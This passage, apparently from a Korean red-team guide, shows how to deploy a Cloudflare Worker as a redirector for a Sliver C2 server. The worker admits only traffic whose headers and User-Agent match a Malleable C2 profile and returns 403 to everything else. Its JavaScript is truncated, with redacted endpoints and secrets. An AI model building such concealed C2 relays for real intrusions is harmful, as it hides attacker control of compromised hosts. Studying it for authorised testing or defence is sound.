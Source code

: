 <figure><img src="../.gitbook/assets/7-worker-subdomain (1).png" alt=""><figcaption></figcaption></figure>

* 워커 클릭 > 오른쪽 위 코드 편집 > 코드 편집 후 오른쪽 위 "배포"

<figure><img src="../.gitbook/assets/8-deploy.png" alt=""><figcaption></figcaption></figure>

이제 아래 코드에서 하드코딩된 섹션만 업데이트 하면 된다. 아래는 예시일 뿐이며, C2 프레임워크와 상관없이 에이전트의 헤더 이름 + 값 + User-Agent 값을 확인한다. 그 이후 위 3개의 값이 모두 일치한다면 C2 서버가 있는 터널로 서비스 토큰을 붙여서 보내고, 아니라면 403을 반환한다.

* WORKER\_ENDPOINT: 현재 워커 노드의 `<워커이름>.<서브도메인>.worker.dev`
* SLIVER\_ENDPOINT: 터널의 공인 호스트 DNS 이름 (예. `resoures-kr.shealthinsurance.com`)
* SLIVER\_HEADER\_NAME: Malleable C2 프로필의 에이전트 헤더 이름
* SLIVER\_HEADER\_VALUE: Malleable C2 프로필의 에이전트 헤더 값
* SLIVER\_UA: Malleable C2 프로필의 User Agent 값

```javascript
(() => {
    // # UPDATE ME # Hardcoding Section. 
    const WORKER_ENDPOINT = "https://REDACTED.REDACTED.workers.dev";
    const SLIVER_ENDPOINT = "https://REDACTED.REDACTED.com";
    const SERVICE_CF_ID = "REDACTED.access";
    const SERVICE_CF_SECRET = "REDACTED";
    const SLIVER_HEADER_NAME = ["Header-1", "Header-2"];    // Single entry is also fine 
    const SLIVER_HEADER_VALUE = ["Value-1", "Value-2"];     // Single entry is also fine 
    const SLIVER_UA = "CustomUserAgentValue";

    addEventListener("fetch", (event) => {
        event.respondWith(handleRequest(event));
    });

    async function handleRequest(event) {
        const req = event.request;
```